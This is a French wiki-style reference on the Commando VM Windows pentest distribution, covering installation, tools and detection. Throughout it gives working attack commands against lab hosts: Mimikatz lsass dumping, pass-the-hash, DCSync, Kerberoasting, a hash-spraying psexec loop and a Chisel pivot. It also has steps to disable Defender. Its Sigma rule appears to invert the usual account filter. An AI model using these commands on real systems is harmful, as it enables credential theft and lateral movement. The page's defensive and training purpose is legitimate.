

# Commando VM — La plateforme de pentest Windows 100 % native

> [!info] **En 1 phrase**
> Commando VM (FireEye/Mandiant) est une machine virtuelle Windows préconfigurée embarquant plus de 200 outils offensifs (Metasploit, Impacket, Mimikatz, Burp Suite) pour tester l'environnement Windows de manière réaliste.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | Commando VM (Complete Mandiant Offensive VM) |
| Description | Distribution Windows de pentest : 200+ outils offensifs installés via Chocolatey sur une base Windows |
| Catégorie | Distributions & Lab |
| Sous-catégorie | Distribution offensive Windows |
| Fonction principale | Tester des environnements Windows/Active Directory de manière native et réaliste |
| Type d'outil | Machine virtuelle préconfigurée + scripts PowerShell d'installation |
| Licence | Apache License 2.0 |
| Open source / propriétaire | Open source (les packages d'outils restent sous leurs licences propres) |
| Langage(s) | PowerShell, C#, Python, Batch |
| Développeur / organisation | Mandiant (FireEye → Google Cloud) |
| Projet officiel | mandiant/commando-vm |
| Dépôt officiel | https://github.com/mandiant/commando-vm |
| Documentation officielle | https://github.com/mandiant/commando-vm/blob/main/Docs/Commando_Quickstart_Guide.md |
| Date de création | 26 mars 2019 |
| État du projet | actif |
| Dernière version connue | Dépôt rolling (2025-2026 : toujours maintenu, packages VM-Packages actifs) |
| Systèmes compatibles | Windows 10 (22H2 recommandé) / Windows 11 en VM |

> [!note] Pour vérifier / compléter
> Ressources recommandées par le projet : Windows 10 22H2, 80+ Go de disque, 4+ Go de RAM, 2 adaptateurs réseau (1 pour Internet/updates, 1 pour le lab). Windows Defender DOIT être désactivé avant l'installation.

---

## Concept

Commando VM est l'équivalent Windows de Kali : une **machine virtuelle Windows préconfigurée** qui transforme Windows en **plateforme d'attaque native**. Là où Kali vit sous Linux, Commando VM permet d'évaluer Active Directory, PowerShell, SMB, WinRM et les attaques post-exploitation avec des outils qui tournent **sur** Windows, exactement comme un attaquant Windows le ferait.

Les outils sont déployés par **Chocolatey** à partir du dépôt **VM-Packages** (feed MyGet de Mandiant), ce qui rend l'installation **reproductible et maintenable**. Le script `install.ps1` lit des **profils** (`default`, etc.) qui définissent les packages à installer, puis le package `debloat.vm` nettoie la VM Windows de base pour économiser les ressources.

On y trouve l'arsenal classique de l'engagement Windows : **Metasploit**, **Impacket** (psexec, secretsdump, GetUserSPNs), **Mimikatz**, **BloodHound**, **Burp Suite**, **PowerShell Empire**, la suite **Sysinternals**, mais aussi **Rubeus**, **CrackMapExec**, **Evil-WinRM**, **Responder**, **mitm6**, **Kerbrute**, **Chisel**, **Ligolo-ng**… En lab, on couple Commando VM avec un **contrôleur de domaine** (Windows Server) pour pratiquer Kerberoasting, Pass-the-Hash, DCSync, AS-REP Roasting, etc. C'est l'outil de référence des **Red Teams** et des audits d'infrastructures Windows.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Base Windows | La distro EST Windows (10/11) : les outils sont exécutés nativement |
| Chocolatey | Gestionnaire de paquets Windows ; Commando VM en est un gros consommateur |
| VM-Packages | Dépôt Mandiant de packages Chocolatey (feed MyGet) pour FLARE VM et Commando VM |
| Profils | Fichiers de configuration définissant les packages installés (`default`, etc.) |
| `debloat.vm` | Package qui retire les applications Windows inutiles et optimise la VM |
| Kerberoasting | Extraction d'un ticket TGS pour cracker le mot de passe d'un compte de service |
| DCSync | Simulation d'une réplication AD pour extraire les hashes (ntds.dit) |
| BloodHound | Cartographie des chemins d'attaque AD (collecte + visualisation graphique) |
| Impacket | Collection de scripts Python pour SMB/WinRM/AD (psexec, secretsdump…) |

---

## Installation

### Préparation (obligatoire)

```powershell
# 1. Windows 10/11 activé en VM (VMware/VirtualBox/Hyper-V)
#    80+ Go de disque, 4+ Go de RAM, 2 adaptateurs réseau
# 2. DÉSACTIVER Windows Defender (via GPO) AVANT l'installation :
#    gpedit.msc -> Computer Config -> Admin Templates -> Windows Components
#    -> Microsoft Defender Antivirus -> "Turn off Microsoft Defender Antivirus" = Enabled
#    (ou via le registre selon la version de Windows)
```

### Installation

```powershell
# 3. Activer le scripting PowerShell (en admin)
Set-ExecutionPolicy Unrestricted -Force

# 4. Télécharger et préparer le dépôt
git clone https://github.com/mandiant/commando-vm
cd commando-vm
Get-ChildItem .\ -Recurse | Unblock-File

# 5. Lancer l'installation (GUI interactive, ou -cli pour la ligne de commande)
.\install.ps1          # interface graphique
.\install.ps1 -cli     # installation automatisée en console
# L'installation dure 1-2 heures selon le réseau
```

### Après installation

```powershell
choco list --local-only
# Configurer le réseau du lab : adapter 2 en Host-Only pour atteindre le domaine
```

> [!warning] Prérequis & problèmes potentiels
> - **Windows Defender doit être désactivé** avant l'installation, sinon les outils sont supprimés par l'AV.
> - Les versions Insider Preview de Windows ne sont pas supportées.
> - L'installation télécharge beaucoup (plusieurs Go) : prévoir un réseau stable et un SSD.
> - Toujours faire un **snapshot** une fois la VM proprement installée.

---

## Configuration

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `install.ps1` | Déclencheur d'installation | GUI ou `-cli` | Installation des packages du profil | `.\install.ps1 -cli` |
| Profils (`Profiles/*.xml`) | Liste des packages à installer | `default`, profils custom | Contenu de la VM | éditer les XML du dépôt |
| `choco upgrade all -y` | Mise à jour des outils | À exécuter régulièrement | Outils à jour | `choco upgrade all -y` |
| `debloat.vm` | Nettoyage de la VM | Installé par défaut | Ressources économisées | géré par l'installer |
| `config.json` / profils | Personnalisation | Packages sélectionnés | VM sur mesure | éditer avant `install.ps1` |
| 2e adaptateur réseau | Accès au lab | Host-Only / Internal | Accès au domaine de test | adapter dans l'hyperviseur |

---

## Architecture interne

Commando VM repose sur **Windows + Chocolatey + le feed VM-Packages (MyGet)**. Le processus d'installation :

- `install.ps1` charge le profil par défaut et résout chaque package du feed.
- Les packages `.vm` exécutent des scripts d'installation propres à chaque outil (binaires, PATH, raccourcis).
- `debloat.vm` supprime les applications superflues de Windows.
- Le résultat est un bureau Windows avec un **menu Commando VM** regroupant les outils par catégorie (Active Directory, C2, Exploitation, Recon, Web…).

Au runtime, les outils sont des programmes Windows standard : PowerShell (empire, powertools), Python (impacket), binaires natifs (mimikatz.exe, Rubeus.exe, Chisel.exe) ou JVM (Burp Suite, Metasploit sous Windows). La VM est typiquement reliée à un **contrôleur de domaine de lab** et à des machines cibles Windows vulnérables.

---

## Commandes

### Commandes principales

```powershell
# Gestion des packages
choco list --local-only
choco upgrade all -y
choco install <paquet> -y

# Outils clés préinstallés
msfconsole
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
bloodhound
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `msfconsole` | Console Metasploit (exploits, handlers) | Prompt `msf6 >` |
| `psexec.py user:pass@host whoami` | Exécution distante via SMB | Sortie de la commande distante |
| `secretsdump.py -just-dc user@host` | Extraction NTDS.dit (DCSync) | Hashes du domaine |
| `GetUserSPNs.py lab/user:pass -dc-ip X -request` | Kerberoasting | Tickets TGS à cracker |
| `mimikatz.exe "sekurlsa::logonpasswords"` | Récupérer identifiants en mémoire | Logons en clair / hashes |
| `bloodhound` | Collecte et visualisation AD | Graphe des chemins d'attaque |
| `choco upgrade all -y` | Mettre à jour tous les outils | VM à jour |
| `crackmapexec smb <range>` | Scan/exploitation SMB | Hôtes, shares, sessions |

### Commandes avancées

```powershell
# Pass-the-Hash avec Impacket
psexec.py -hashes :<NTHASH> lab/user@10.10.20.15 "whoami"
# Collection BloodHound (collector intégré)
Invoke-BloodHound -CollectionMethod All
# Rubeus : Kerberoasting / AS-REP Roasting
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `install.ps1 -cli` | Installation sans GUI | `.\install.ps1 -cli` | Basic |
| `choco install <pkg> -y` | Installe un package sans confirmation | `choco install bloodhound -y` | Basic |
| `choco upgrade all -y` | Met à jour tous les packages | `choco upgrade all -y` | Basic |
| `psexec.py -hashes :hash` | Pass-the-Hash | `psexec.py -hashes :aad3b435...` | Intermediate |
| `secretsdump.py -just-dc` | DCSync ciblé | `secretsdump.py -just-dc lab/user@host` | Intermediate |
| `GetUserSPNs.py -request` | Demande les tickets SPN | `GetUserSPNs.py -request -save` | Intermediate |
| `Rubeus.exe kerberoast /outfile:` | Export des tickets | `Rubeus.exe kerberoast /outfile:r.txt` | Intermediate |
| `Invoke-BloodHound -CollectionMethod All` | Collecte complète | `Invoke-BloodHound -CollectionMethod All` | Advanced |
| `mimikatz "lsadump::dcsync"` | DCSync via Mimikatz | `mimikatz.exe "lsadump::dcsync /domain:lab.local /user:krbtgt"` | Advanced |

> [!tip] Options les plus utiles au quotidien
> `choco upgrade all -y` (maintenance), `secretsdump.py -just-dc` (dump AD), `psexec.py -hashes` (lateral movement), `Rubeus.exe kerberoast` (Kerberoasting), `Invoke-BloodHound` (cartographie AD).

---

## Exemples pratiques

### Beginner

```powershell
# Vérifier les outils installés
choco list --local-only
# Tester une connexion SMB
psexec.py lab/administrator:Password1@10.10.20.15 "whoami"
```

### Intermediate

```powershell
# Kerberoasting complet
GetUserSPNs.py lab/scanuser:pass -dc-ip 10.10.20.15 -request -save
hashcat -m 13100 kerberoast.hash rockyou.txt
# AS-REP Roasting avec Rubeus
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt
```

### Advanced

```powershell
# Pass-the-Hash avec Mimikatz puis Impacket
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
psexec.py -hashes :<NTHASH> lab/administrator@10.10.20.15 "ipconfig"
```

### Expert

```powershell
# DCSync complet et crack du hash
secretsdump.py -just-dc-ntlm lab/administrator:pass@10.10.20.15
hashcat -m 1000 ntlm.txt rockyou.txt
# Pivot via Chisel
chisel.exe client 10.10.20.15:8080 R:1080:socks
```

---

## Workflow complet (scénario pas à pas)

1. **Déployer la VM et la mettre à jour** — installer Windows, lancer `install.ps1`, changer le mot de passe.
   ```powershell
   Set-ExecutionPolicy Unrestricted -Force
   .\install.ps1
   net user Administrator "NouveauMotDePasse!2026"
   ```
2. **Configurer le lab AD** — rejoindre le domaine ou s'y connecter.
   ```powershell
   Add-Computer -DomainName lab.local -Credential (Get-Credential)
   Restart-Computer
   ```
3. **Reconnaissance AD** — collecter les données avec BloodHound.
   ```powershell
   Invoke-BloodHound -CollectionMethod All
   bloodhound
   ```
4. **Attaque Kerberoasting**.
   ```powershell
   GetUserSPNs.py lab/scanuser:pass -dc-ip 10.10.20.15 -request -save
   hashcat -m 13100 kerberoast.hash rockyou.txt
   ```
5. **Exécution distante et pivoting**.
   ```powershell
   psexec.py lab/administrator:pass@10.10.20.15 "whoami"
   secretsdump.py -just-dc-ntlm lab/administrator:pass@10.10.20.15
   ```
6. **Rapport** — documenter les chemins d'attaque trouvés.

---

## Scénarios avancés

### Scénario 1 : Pass-the-Hash avec Mimikatz + Impacket

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
# Copier le hash NTLM, puis :
psexec.py -hashes :<NTHASH> lab/user@10.10.20.15 "whoami"
secretsdump.py -hashes :<NTHASH> lab/user@10.10.20.15
```

### Scénario 2 : DCSync pour extraire les hashes du domaine

```powershell
secretsdump.py -just-dc lab/administrator:pass@10.10.20.15
# Ou via Mimikatz :
mimikatz.exe "lsadump::dcsync /domain:lab.local /user:administrator" exit
hashcat -m 1000 ntlm-hash.txt rockyou.txt
```

### Scénario 3 : Prise d'identifiants en mémoire (lsass) + lateral movement

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" exit
# Utiliser les hashes récupérés sur d'autres machines du domaine
crackmapexec smb 10.10.20.0/24 -u admin -H <NTHASH> --exec-method smbexec
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance AD | BloodHound, Nmap (Windows), pingcastle |
| Énumération | CrackMapExec, ldapsearch, enum4linux (via Windows) |
| Credential Access | Mimikatz, Rubeus, Kerbrute, secretsdump |
| Exploitation | Metasploit (Windows), Burp Suite |
| Lateral Movement | psexec, Evil-WinRM, CrackMapExec, Pass-the-Hash |
| Privilege Escalation | WinPEAS, Seatbelt, PowerUp |
| C2 | PowerShell Empire, Covenant, Sliver, Havoc |
| Pivoting | Chisel, Ligolo-ng |
| Web | Burp Suite, SQLMap |
| Recon outils système | Sysinternals Suite (autoruns, procmon) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | OS Credential Dumping : LSASS Memory | T1003.001 | Mimikatz est préinstallé pour lsass | Accès anormaux à lsass, logs 10, EDR | Credential Guard, LSA Protection |
| Credential Access | Steal or Forge Kerberos Tickets : Kerberoasting | T1558.003 | Rubeus/GetUserSPNs préinstallés | Événements 4769 avec RC4, requêtes SPN massives | Mots de passe de service longs, surveiller les SPN |
| Credential Access | Steal or Forge Kerberos Tickets : AS-REP Roasting | T1558.004 | Rubeus asreproast préinstallé | 4768 sans pré-auth (Do not require pre-auth) | Activer la pré-authentification |
| Lateral Movement | Remote Services : SMB/Windows Admin Shares | T1021.002 | Impacket/psexec pour le mouvement latéral | Événements 4624 (type 3), 5140, SMB signing | SMB signing, firewall, segmentation |
| Collection | OS Credential Dumping : NTDS | T1003.003 | secretsdump DCSync pour extraire ntds.dit | Événements 4662 (réplication anormale) | Restreindre les droits de réplication |
| Discovery | Account Discovery : Domain Account | T1087.002 | BloodHound collecte les objets AD | Requêtes LDAP massives | Monitorer les requêtes LDAP anormales |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Commando VM est l'outil par excellence des techniques de credential dumping et de Kerberoasting : sa détection passe par le durcissement AD et la supervision des événements Windows 4662/4769/4768.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Événements Kerberoasting | Requêtes SPN massives, tickets TGS RC4 (4769) |
| DCSync / réplication non planifiée | Événement 4662 sur les droits de réplication |
| Mimikatz / accès à lsass | OpenProcess sur lsass, chargement de modules suspects |
| SMB scans massifs / psexec | Logs 4624 type 3, 5140, activités smbexec |
| Exécution de Rubeus/BloodHound | Binaires/scripts détectés par EDR, requêtes LDAP |
| Empires/C2 PowerShell | Événements 4104 (ScriptBlockLogging), 4688 |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Windows : Kerberoasting (requêtes TGS avec chiffrement RC4)
title: Kerberoasting with RC4 Encryption
id: b2e11e72-5d3b-4c8a-9f6d-2a1b3c4d5e6f
status: test
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        ServiceName|endswith: '$'
        TicketEncryptionType: '0x17'
    filter:
        AccountName|endswith: 'krbtgt'
    condition: selection and not filter
falsepositives:
    - Legitimate RC4 requests by legacy applications
level: high
```

```powershell
# YARA — binaire Mimikatz (signatures connues)
rule Mimikatz_Presence {
    meta:
        description = "Détection de binaires Mimikatz"
        author = "Analyste"
    strings:
        $s1 = "privilege::debug"
        $s2 = "sekurlsa::logonpasswords"
        $s3 = "kerberos::golden"
    condition:
        uint16(0) == 0x5A4D and any of ($s*)
}
```

---

## Automatisation

```powershell
# PowerShell — mise à jour et inventaire
choco upgrade all -y
choco list --local-only | Out-File tools.txt

# PowerShell — script d'attaque Kerberoasting automatisé
$creds = Get-Credential
GetUserSPNs.py "lab/$($creds.UserName):$($creds.GetNetworkCredential().Password)" -dc-ip 10.10.20.15 -request -save
```

```python
# Python — exploitation d'une liste de hash NTLM
import subprocess
hashes = open("hashes.txt").read().splitlines()
for h in hashes:
    subprocess.run(["psexec.py", "-hashes", f":{h}", "lab/user@10.10.20.15", "whoami"])
```

---

## Output et parsing

Les outils de Commando VM produisent des sorties texte (impacket, mimikatz) ou des fichiers (BloodHound JSON/ZIP).

```powershell
# BloodHound : exporter la collecte
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\bloodhound
Get-ChildItem C:\bloodhound
# Parser les données avec le CLI neo4j/bloodhound
```

```python
# Python — parsing du JSON BloodHound (exemple)
import json
with open("20260816123456_users.json") as fh:
    users = json.load(fh)["data"]
for u in users:
    print(u.get("name"), u.get("properties", {}).get("enabled"))
```

> [!note] À vérifier
> Les formats BloodHound changent entre les versions (JSON/ZIP) : vérifier la version du collector utilisé.

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - Impacket]] — psexec, secretsdump, GetUserSPNs
- [[Outil - BloodHound]] — cartographie AD
- [[Outil - Mimikatz]] — credential dumping
- [[Outil - Metasploit]] — exploitation Windows
- [[Outil - Burp Suite]] — tests web
- [[Outil - PowerShell Empire]] — post-exploitation PowerShell
- [[Outil - Sysinternals Suite]] — analyse système (autoruns, procmon)
- [[Outil - Rubeus]] — attaques Kerberos
- [[Outil - CrackMapExec]] — scans/exploitation SMB
- [[Outil - Evil-WinRM]] — shell WinRM
- [[Outil - Responder]] / [[Outil - mitm6]] — empoisonnement réseau
- [[Outil - hashcat]] — cracking des hashes
- [[Outil - Sliver]] / [[Outil - Covenant]] — C2 alternatifs

```text
BloodHound → Kerberoast → hashcat → Pass-the-Hash → psexec → DCSync
```

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Kali Linux]] | 600+ outils Linux, écosystème énorme | Pas natif Windows | Engagements mixtes |
| [[Outil - Flare VM]] | Reverse engineering Windows | Pas orienté attaque AD | Analyse de malwares |
| Installation manuelle | Contrôle total | Longue à maintenir | Utilisateurs avancés |

> **Quand utiliser Commando VM plutôt que Kali ?** Pour tout ce qui touche à **Windows et Active Directory** : les outils natifs (mimikatz, Rubeus, BloodHound, Empire) se comportent exactement comme dans un environnement réel compromis. Kali reste indispensable pour la reconnaissance réseau et le web.

---

## Performance

- **Disque** : 80+ Go recommandés (Windows + 200 outils + wordlists).
- **RAM** : 4 Go minimum, 8 Go confortables (Metasploit + BloodHound GUI simultanés).
- **Installation** : 1-2 heures (téléchargement de plusieurs Go depuis le feed MyGet).
- **CPU** : 2-4 cœurs suffisent ; le cracking lourd se fait mieux sur la machine hôte.
- **Réseau** : 2 adaptateurs recommandés (1 NAT pour updates, 1 Host-Only pour le lab) pour éviter la pollution.
- **Démarrage** : Windows natif est plus lourd qu'un bureau Linux ; `debloat.vm` aide.

> [!note] À vérifier
> Chiffres issus de la documentation officielle (README + Quickstart Guide). L'installation interactive est plus lente que `-cli`.

---

## Troubleshooting

### Common problems

#### Problème : l'installation échoue sur un package

- **Cause** : package obsolète, chemin d'installation modifié ou AV actif.
- **Solution** : désactiver Defender (GPO), réessayer `.\install.ps1` (reprend les packages manquants), consulter https://github.com/mandiant/VM-Packages.
- **Vérification** : `choco list --local-only` ne montre pas le package en échec.

#### Problème : Mimikatz retourne « privilege::debug » en erreur

- **Cause** : Credential Guard actif ou droits insuffisants.
- **Solution** : exécuter en admin, désactiver Credential Guard dans la VM de lab.
- **Vérification** : `mimikatz.exe "privilege::debug"` affiche `20` (OK).

#### Problème : Windows Defender supprime les outils après installation

- **Cause** : Defender n'a pas été désactivé durablement (GPO).
- **Solution** : appliquer la GPO « Turn off Microsoft Defender Antivirus » puis réinstaller les packages.
- **Vérification** : `Get-MpComputerStatus` indique l'état réel de l'AV.

---

## Sécurité de l'outil

- **VM de lab uniquement** : Commando VM est faite pour le lab isolé (Host-Only) ; ne jamais la connecter à un réseau de production.
- **Windows Defender désactivé** : la VM est volontairement « nue » — d'où l'isolation obligatoire.
- **Identifiants** : la VM utilise les comptes Windows ; changer le mot de passe admin après installation.
- **Pas de télémétrie ajoutée** : seuls les outils (et Windows lui-même) émettent du trafic ; couper l'adaptateur NAT pour l'analyse propre.
- **Snapshots** : les attaques AD peuvent casser le domaine de lab ; snapshot systématique avant chaque phase destructrice.
- **Usage légal** : mimikatz, Rubeus et consorts déclenchent les EDR ; réservés aux engagements autorisés.

---

## Limitations

- **Windows requis** : licence et ressources Windows nécessaires (lourdeur, mises à jour).
- **Pas de support officiel** : le projet est communautaire (issues GitHub).
- **AV/EDR** : Windows Defender doit être désactivé — incompatible avec un poste durci.
- **Maintenance** : `choco upgrade all` peut casser un outil (dépendances Windows).
- **Architecture** : limité à x86_64 Windows ; pas de version ARM.
- **Pas un environnement Linux** : les outils Linux (masscan, ghidra CLI…) doivent être complétés par une machine Kali.

---

## Cheatsheet

```powershell
# Maintenance
choco list --local-only
choco upgrade all -y
choco install <paquet> -y

# Credential Access
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt

# Impacket
psexec.py -hashes :<NTHASH> lab/user@10.10.20.15 "whoami"
secretsdump.py -just-dc lab/admin:pass@10.10.20.15
GetUserSPNs.py lab/user:pass -dc-ip 10.10.20.15 -request

# Cartographie
Invoke-BloodHound -CollectionMethod All
bloodhound

# Pivot
chisel.exe client 10.10.20.15:8080 R:1080:socks
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Distro Windows de pentest : 200+ outils offensifs natifs (AD, PowerShell, SMB) |
| **Quand l'utiliser ?** | Évaluations d'Active Directory/Windows, Red Team, lab AD |
| **Commande principale** | `.\install.ps1` (installation) puis `msfconsole` / `bloodhound` / `mimikatz` |
| **Alternative principale** | [[Outil - Kali Linux]] · [[Outil - Flare VM]] |
| **Concepts importants** | Chocolatey, VM-Packages, Pass-the-Hash, Kerberoasting, DCSync, BloodHound |
| **Liens associés** | [[Outil - Impacket]] · [[Outil - Mimikatz]] · [[Outil - BloodHound]] · [[Outil - Metasploit]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Requêtes SPN massives (Kerberoasting) | Survol des tickets TGS RC4, mots de passe de service longs |
| Réplication AD non planifiée (4662) | Restreindre les droits de réplication, alertes SIEM |
| Accès à lsass / injection (mimikatz) | Credential Guard, LSA Protection, EDR, supervision de lsass |
| SMB scans et psexec sortants | SMB signing, firewall, détection de mouvements latéraux |
| Sessions PowerShell longues (Empire) | ScriptBlockLogging 4104, AMSI, politique d'exécution |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utilise **Chocolatey** pour garder la VM à jour : `choco upgrade all -y` après chaque grosse mise à jour Windows.
> - Configure un **snapshot** avant chaque phase destructrice : un pentest AD peut casser le domaine de lab.
> - Croise les résultats (BloodHound + Kerberoast + secretsdump) pour une vision complète des chemins d'attaque AD.
> - Désactive le 2e adaptateur réseau (NAT) pendant les opérations pour éviter les fuites vers Internet.

> [!warning] **Pièges**
> - Commando VM est **lourde** (plusieurs Go d'outils) : prévois 80+ Go de disque et 8 Go de RAM confortables.
> - Ne pas utiliser sur un réseau de production : la VM est faite pour le **lab isolé** ; les attaques AD nécessitent des autorisations.
> - Mimikatz et psexec déclenchent immédiatement les EDR/AV modernes : pour un lab, désactive Windows Defender via **GPO** (pas seulement temporairement).
> - Ne pas oublier que Windows lui-même (télémétrie, updates) émet du trafic : couper l'adaptateur Internet en analyse.

---

## References

### Official

- Dépôt officiel : https://github.com/mandiant/commando-vm
- Quickstart Guide : https://github.com/mandiant/commando-vm/blob/main/Docs/Commando_Quickstart_Guide.md
- Blog Mandiant : https://www.mandiant.com/resources/blog/commando-vm-windows-offensive-deployment
- VM-Packages : https://github.com/mandiant/VM-Packages
- Feed MyGet : https://www.myget.org/feed/Packages/vm-packages

### Security references

- MITRE ATT&CK T1558.003 — Kerberoasting : https://attack.mitre.org/techniques/T1558/003/
- MITRE ATT&CK T1003.001 — LSASS Memory : https://attack.mitre.org/techniques/T1003/001/
- MITRE ATT&CK T1021.002 — SMB/Windows Admin Shares : https://attack.mitre.org/techniques/T1021/002/

### Community

- BloodHound (documentation) : https://bloodhound.readthedocs.io/
- HackTricks — Active Directory Methodology : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

---

> [!info] **Sources**
> - https://github.com/mandiant/commando-vm
> - https://www.mandiant.com/resources/blog/commando-vm-windows-offensive-deployment

**Liens :** [[Tools| Outils]] · [[Outil - Mimikatz| Mimikatz]] · [[Outil - BloodHound| BloodHound]] · [[Outil - Impacket| Impacket]] · [[Outil - Metasploit| Metasploit]] · [[Outil - Sysinternals Suite| Sysinternals]] · [[Outil - PowerShell Empire| Empire]]
